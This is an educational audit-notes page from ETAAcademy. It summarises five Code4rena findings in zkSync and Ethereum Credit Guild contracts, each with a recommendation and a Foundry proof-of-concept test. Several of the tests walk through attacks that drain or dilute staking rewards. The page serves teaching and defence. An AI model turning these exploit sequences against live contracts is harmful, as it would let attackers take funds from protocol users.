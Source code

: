 # ETAAcademy-Adudit: 3. Check

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>03. Check</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>math</th>
          <td>check</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1.[Medium] Mailbox.requestL2Transaction() checks the deposit limit of msg.sender (L1WethBridge) instead of the real depositor of weth from L1, as a result, after certain time, nobody will be able to deposit weth anymore from L1

### Check the deposit limit of msg.sender not depositor

- Summary : The deposit limit check is based on the **`msg.sender`** (bridge) rather than the actual depositor. Consequently, when the bridge's deposit limit is met, further deposits are blocked, even if individual depositors haven't reached their personal limits.
- Impact & Recommendation: This flaw could prevent anyone from using Zksync to deposit WETH from L1 to L2. To address this issue, the deposit limit check should be based on the real depositor's limit instead of the bridge's.
  🐬: [Source](https://github.com/code-423n4/2023-10-zksync-findings/issues/246) & [Report](https://code4rena.com/reports/2023-10-zksync)

  <details><summary>POC</summary>

  ```solidity

    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.17;
    import "lib/forge-std/src/Test.sol";
    import {L1WethBridgeTest} from "./_L1WethBridge_Shared.t.sol";
    import {IAllowList} from "../../../../../../cache/solpp-generated-contracts/common/interfaces/IAllowList.sol";
    import {REQUIRED_L2_GAS_PRICE_PER_PUBDATA} from "../../../../../../cache/solpp-generated-contracts/zksync/Config.sol";
    contract DepositTest is L1WethBridgeTest {
        function deposit(address user, uint256 amount) private returns (bool) {
            hoax(user);
            l1Weth.deposit{value: amount}();
            hoax(user);
            l1Weth.approve(address(bridgeProxy), amount);
            bytes memory depositCallData = abi.encodeWithSelector(
                bridgeProxy.deposit.selector,
                user,
                bridgeProxy.l1WethAddress(),
                amount,
                1000000,                        // gas limit
                REQUIRED_L2_GAS_PRICE_PER_PUBDATA,
                user
            );
            hoax(user);
            (bool success, ) = address(bridgeProxy).call{value: 0.1 ether}(depositCallData);
            return success;
        }
        function test_DepositExceedLimit() public {
            console.log("\n \n test_DepositExceeLimit is started....$$$$$$$$$$$$$$4");
            address user1 = address(111);
            address user2 = address(222);
            address user3 = address(333);
            vm.prank(owner);
            allowList.setDepositLimit(address(0), true, 10 ether); // deposit at most 10 ether
            IAllowList.Deposit memory limitData = IAllowList(allowList).getTokenDepositLimitData(address(0));
            assertEq(limitData.depositCap, 10 ether);

            bool success = deposit(user1, 3 ether); // send 3 ether weth and 0.1 ether eth
            assertTrue(success);
            success = deposit(user2, 4 ether); // send 4 ether weth and 0.1 ether eth
            assertTrue(success);
            success =  deposit(user3, 2.7 ether + 1); // send 2.7 ether + 1 weth  and 0.1 ether eth, now a total of 10ether + 1, will it exceed?
            assertFalse(success);   // s.totalDepositedAmountPerUser[L1WethBridge] = 10 ether + 1, it exceeds the limit of 10 ether
        }
    }


  ```

  </details>

## 2.[Medium] The userGaugeProfitIndex is not set correctly, allowing an attacker to receive rewards without waiting

### Not correctly initialized

- Summary: This vulnerability arises from a flaw in the **`ProfitManager`** contract where the **`userGaugeProfitIndex`** is not correctly initialized, if the user's gauge weight is zero.
- Impact & Recommendation: As a result, the attacker can drain rewards, potentially depriving other users of their entitled rewards. To address this issue, it's crucial to ensure that the **`userGaugeProfitIndex`** is correctly set to the current `gaugeProfitIndex` when initially accessed, later when the `gaugeProfitIndex` grows the user will be able to claim the rewards.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1253) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testAttackClaimAfterProfit() public {
        address attacker = makeAddr("attacker");
        vm.startPrank(governor);
        core.grantRole(CoreRoles.GOVERNOR, address(this));
        core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
        core.grantRole(CoreRoles.GUILD_MINTER, address(this));
        core.grantRole(CoreRoles.GAUGE_ADD, address(this));
        core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
        core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
        vm.stopPrank();
        vm.prank(governor);
        profitManager.setProfitSharingConfig(
            0, // surplusBufferSplit
            0.5e18, // creditSplit
            0.5e18, // guildSplit
            0, // otherSplit
            address(0) // otherRecipient
        );
        guild.setMaxGauges(1);
        guild.addGauge(1, gauge1);
        guild.mint(attacker, 150e18);
        guild.mint(bob, 400e18);
        vm.prank(bob);
        guild.incrementGauge(gauge1, 400e18);

        credit.mint(address(profitManager), 20e18);
        profitManager.notifyPnL(gauge1, 20e18);
        //Attacker votes for a gauge after it notifies profit
        //The userGaugeProfitIndex of the attacker is not set
        vm.prank(attacker);
        guild.incrementGauge(gauge1, 150e18);

        //Because the userGaugeProfitIndex is not set it will be set to 1e18
        //The gaugeProfitIndex will be 1.025e18 so the attacker will steal the rewards
        profitManager.claimGaugeRewards(attacker,gauge1);
        console.log(credit.balanceOf(attacker));
        //Other users will then fail to claim their rewards
        vm.expectRevert(bytes("ERC20: transfer amount exceeds balance"));
        profitManager.claimGaugeRewards(bob,gauge1);
        console.log(credit.balanceOf(bob));
    }

  ```

  </details>

## 3.[Medium] No check for sequencer uptime can lead to dutch auctions failing or executing at bad prices

### Sequencer uptime

- Summary: The AuctionHouse contract doesn't check sequencer uptime, risking failed auctions or unfavorable prices. Without bids for over 10 minutes, the protocol faces losses or loan forgiveness, impacting users during network outages.

- Impact & Recommendation : Consider using Chainlink’s L2 Sequencer Feeds or implementing a mechanism to restart auctions if no bids are received.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1194) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
      /// @notice maximum duration of auctions, in seconds.
    /// with a midpoint of 650 (10m50s) and an auction duration of 30min, and a block every
    /// 13s, first phase will last around 50 blocks and each block will offer an additional
    /// 1/(650/13)=2% of the collateral during the first phase. During the second phase,
    /// every block will ask 1/((1800-650)/13)=1.13% less CREDIT in each block.
    uint256 public immutable auctionDuration;

  ```

  </details>

## 4.[Medium] Users can deflate other markets Guild holders rewards by staking less priced token

### Stake less priced token

- Summary: The SurplusGuildMinter::stake() function lacks a check to ensure that the provided term's CREDIT token matches the one in the called SurplusGuildMinter contract. A potential exploit arises where a user stakes in SurplusGuildMinter(gUSDC) using a gWETH term. This action generates Guild tokens based on staked gUSDC but increases the gaugeWeight for gWETH. Consequently, other guild token holders in the gWETH market may receive reduced rewards.

- Impact & Recommendation: To prevent manipulation, include a verification in the stake() function to confirm that the provided term belongs to the same market as the SurplusGuildMinter.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1032) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  🐬: Others

  - [Low] ProfitManager::donateToTermSurplusBuffer() does not check if the term is from the same market: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    pragma solidity 0.8.13;
    import {Test, console} from "@forge-std/Test.sol";
    import {Core} from "@src/core/Core.sol";
    import {CoreRoles} from "@src/core/CoreRoles.sol";
    import {GuildToken} from "@src/tokens/GuildToken.sol";
    import {CreditToken} from "@src/tokens/CreditToken.sol";
    import {ProfitManager} from "@src/governance/ProfitManager.sol";
    import {MockLendingTerm} from "@test/mock/MockLendingTerm.sol";
    import {RateLimitedMinter} from "@src/rate-limits/RateLimitedMinter.sol";
    import {SurplusGuildMinter} from "@src/loan/SurplusGuildMinter.sol";
    contract StakeIntoWrongTermUnitTest is Test {
        address private governor = address(1);
        address private guardian = address(2);
        address private EXPLOITER = makeAddr("exploiter");
        address private STAKER1 = makeAddr("staker1");
        address private STAKER2 = makeAddr("staker2");
        address private STAKER3 = makeAddr("staker3");
        address private termUSDC;
        address private termWETH;
        Core private core;
        ProfitManager private profitManagerUSDC;
        ProfitManager private profitManagerWETH;
        CreditToken gUSDC;
        CreditToken gWETH;
        GuildToken guild;
        RateLimitedMinter rlgm;
        SurplusGuildMinter sgmUSDC;
        SurplusGuildMinter sgmWETH;
        // GuildMinter params
        uint256 constant MINT_RATIO = 2e18;
        uint256 constant REWARD_RATIO = 5e18;
        function setUp() public {
            vm.warp(1679067867);
            vm.roll(16848497);
            core = new Core();
            profitManagerUSDC = new ProfitManager(address(core));
            profitManagerWETH = new ProfitManager(address(core));
            gUSDC = new CreditToken(address(core), "gUSDC", "gUSDC");
            gWETH = new CreditToken(address(core), "gWETH", "gWETH");
            guild = new GuildToken(address(core), address(profitManagerWETH));
            rlgm = new RateLimitedMinter(
                address(core), /*_core*/
                address(guild), /*_token*/
                CoreRoles.RATE_LIMITED_GUILD_MINTER, /*_role*/
                type(uint256).max, /*_maxRateLimitPerSecond*/
                type(uint128).max, /*_rateLimitPerSecond*/
                type(uint128).max /*_bufferCap*/
            );
            sgmUSDC = new SurplusGuildMinter(
                address(core),
                address(profitManagerUSDC),
                address(gUSDC),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            sgmWETH = new SurplusGuildMinter(
                address(core),
                address(profitManagerWETH),
                address(gWETH),
                address(guild),
                address(rlgm),
                MINT_RATIO,
                REWARD_RATIO
            );
            profitManagerUSDC.initializeReferences(address(gUSDC), address(guild), address(0));
            profitManagerWETH.initializeReferences(address(gWETH), address(guild), address(0));
            termUSDC = address(new MockLendingTerm(address(core)));
            termWETH = address(new MockLendingTerm(address(core)));
            // roles
            core.grantRole(CoreRoles.GOVERNOR, governor);
            core.grantRole(CoreRoles.GUARDIAN, guardian);
            core.grantRole(CoreRoles.CREDIT_MINTER, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(this));
            core.grantRole(CoreRoles.GAUGE_ADD, address(this));
            core.grantRole(CoreRoles.GAUGE_REMOVE, address(this));
            core.grantRole(CoreRoles.GAUGE_PARAMETERS, address(this));
            core.grantRole(CoreRoles.GUILD_MINTER, address(rlgm));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmUSDC));
            core.grantRole(CoreRoles.RATE_LIMITED_GUILD_MINTER, address(sgmWETH));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmUSDC));
            core.grantRole(CoreRoles.GUILD_SURPLUS_BUFFER_WITHDRAW, address(sgmWETH));
            core.grantRole(CoreRoles.GAUGE_PNL_NOTIFIER, address(this));
            core.renounceRole(CoreRoles.GOVERNOR, address(this));
            // add gauge and vote for it
            guild.setMaxGauges(10);
            guild.addGauge(1, termUSDC);
            guild.addGauge(2, termWETH);
            // labels
            vm.label(address(core), "core");
            vm.label(address(profitManagerUSDC), "profitManagerUSDC");
            vm.label(address(profitManagerWETH), "profitManagerWETH");
            vm.label(address(gUSDC), "gUSDC");
            vm.label(address(gWETH), "gWETH");
            vm.label(address(guild), "guild");
            vm.label(address(rlgm), "rlcgm");
            vm.label(address(sgmUSDC), "sgmUSDC");
            vm.label(address(sgmWETH), "sgmWETH");
            vm.label(termUSDC, "termUSDC");
            vm.label(termWETH, "termWETH");
        }
        function testC1() public {
            gWETH.mint(STAKER1, 10e18);
            gWETH.mint(STAKER2, 50e18);
            gWETH.mint(STAKER3, 30e18);
            vm.startPrank(STAKER1);
            gWETH.approve(address(sgmWETH), 10e18);
            sgmWETH.stake(termWETH, 10e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gWETH.approve(address(sgmWETH), 50e18);
            sgmWETH.stake(termWETH, 50e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gWETH.approve(address(sgmWETH), 30e18);
            sgmWETH.stake(termWETH, 30e18);
            vm.stopPrank();

            console.log("------------------------BEFORE ATTACK------------------------");
            console.log("Gauge(gWETH) Weight:                   ", guild.getGaugeWeight(termWETH));
            vm.warp(block.timestamp + 150 days);
            vm.prank(governor);
            profitManagerWETH.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gWETH.mint(address(profitManagerWETH), 1e18);
            profitManagerWETH.notifyPnL(termWETH, 1e18);
            sgmWETH.getRewards(STAKER1, termWETH);
            sgmWETH.getRewards(STAKER2, termWETH);
            sgmWETH.getRewards(STAKER3, termWETH);
            console.log("Staker1 reward:                             ", gWETH.balanceOf(address(STAKER1)));
            console.log("Staker2 reward:                            ", gWETH.balanceOf(address(STAKER2)));
            console.log("Staker3 reward:                            ", gWETH.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex:                        ", profitManagerWETH.gaugeProfitIndex(termWETH));
        }
        function testC2() public {
            gWETH.mint(STAKER1, 10e18);
            gWETH.mint(STAKER2, 50e18);
            gWETH.mint(STAKER3, 30e18);
            vm.startPrank(STAKER1);
            gWETH.approve(address(sgmWETH), 10e18);
            sgmWETH.stake(termWETH, 10e18);
            vm.stopPrank();
            vm.startPrank(STAKER2);
            gWETH.approve(address(sgmWETH), 50e18);
            sgmWETH.stake(termWETH, 50e18);
            vm.stopPrank();
            vm.startPrank(STAKER3);
            gWETH.approve(address(sgmWETH), 30e18);
            sgmWETH.stake(termWETH, 30e18);
            vm.stopPrank();
            console.log("------------------------AFTER ATTACK-------------------------");
            console.log("Gauge(gWETH) Weight Before Attack:     ", guild.getGaugeWeight(termWETH));
            gUSDC.mint(EXPLOITER, 100e18);
            console.log("EXPLOITER gUSDC balance before stake:  ", gUSDC.balanceOf(EXPLOITER));
            vm.startPrank(EXPLOITER);
            gUSDC.approve(address(sgmUSDC), 100e18);
            sgmUSDC.stake(termWETH, 100e18);
            console.log("EXPLOITER gUSDC balance after stake:                       ", gUSDC.balanceOf(EXPLOITER));
            vm.stopPrank();
            console.log("Gauge(gWETH) Weight After Attack:      ", guild.getGaugeWeight(termWETH));
            vm.warp(block.timestamp + 150 days);
            vm.prank(governor);
            profitManagerWETH.setProfitSharingConfig(
                0.05e18, // surplusBufferSplit
                0.9e18, // creditSplit
                0.05e18, // guildSplit
                0, // otherSplit
                address(0) // otherRecipient
            );
            gWETH.mint(address(profitManagerWETH), 1e18);
            profitManagerWETH.notifyPnL(termWETH, 1e18);
            vm.startPrank(EXPLOITER);
            sgmUSDC.unstake(termWETH, 100e18);
            vm.stopPrank();
            console.log("EXPLOITER gUSDC balance after unstake: ", gUSDC.balanceOf(EXPLOITER));
            sgmWETH.getRewards(EXPLOITER, termWETH);
            sgmUSDC.getRewards(EXPLOITER, termWETH);
            console.log("EXPLOITER reward:                                          ", gWETH.balanceOf(address(EXPLOITER)));
            sgmWETH.getRewards(STAKER1, termWETH);
            sgmWETH.getRewards(STAKER2, termWETH);
            sgmWETH.getRewards(STAKER3, termWETH);
            console.log("Staker1 reward:                             ", gWETH.balanceOf(address(STAKER1)));
            console.log("Staker2 reward:                            ", gWETH.balanceOf(address(STAKER2)));
            console.log("Staker3 reward:                             ", gWETH.balanceOf(address(STAKER3)));
            console.log("GaugeProfitIndex After:                  ", profitManagerWETH.gaugeProfitIndex(termWETH));
        }
    }

  ```

  </details>

## 5.[Medium] There is no way to liquidate a position if it breaches maxDebtPerCollateralToken value creating bad debt.

### debtPerCollateralToken < maxDebtPerCollateral

- Summary: The lending protocol aims to maintain a healthy debt-to-collateral ratio. However, over time, accrued interest can push users' debt beyond this ratio. Even though the ratio is breached, positions can't be called unless users miss repayment deadlines. In addition, In the current setup, periodic repayments aren't enforced for every term, making it possible for malicious users to avoid repayments and keep their positions unliquidatable.
- Impact & Recommendation: This loophole creates risks for the protocol, as offboarding a term requires force-closing all positions, leading to potential losses for lenders and missed interest payments. Enforcing a check of debtPerCollateralToken < maxDebtPerCollateral in \_partialRepay, or in \_call to prevent underwater positions, when partial repays are off. However, this may limit users from borrowing up to the maximum initially, posing trade-offs.
  🐬: [Source](https://github.com/code-423n4/2023-12-ethereumcreditguild-findings/issues/1057) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function testBreakMaxDebtPerCollateralToken() public {
            // prepare
            uint256 borrowAmount = 30_000e18;
            uint256 collateralAmount = 15e18;
            collateral.mint(address(this), collateralAmount);
            collateral.approve(address(term), collateralAmount);
            credit.approve(address(term), type(uint256).max);
            // borrow
            bytes32 loanId = term.borrow(borrowAmount, collateralAmount);
            vm.warp(block.timestamp + (term.YEAR() * 3));
            // 3 years have passed, and now position's debt is 39_000
            uint256 loanDebt = term.getLoanDebt(loanId);
            assertEq(loanDebt, 39_000e18);
            // A user is able to call partialRepays even if he missed partialRepays deadline
            term.partialRepay(
                loanId,
                (loanDebt * _MIN_PARTIAL_REPAY_PERCENT) / 1e18
            );
            // After repaying just minPartialRepayPercent, a debtPerCollateralToken of the position is 2080, which is greater than maxDebtPerCollateral
            uint256 newLoanDebt = term.getLoanDebt(loanId);
            assertEq((newLoanDebt / 15e18) * 1e18, 2080000000000000000000);
            assertGt((newLoanDebt / 15e18) * 1e18, _CREDIT_PER_COLLATERAL_TOKEN);
            // A position cannot be called
            vm.expectRevert("LendingTerm: cannot call");
            term.call(loanId);
        }

  ```

  </details>
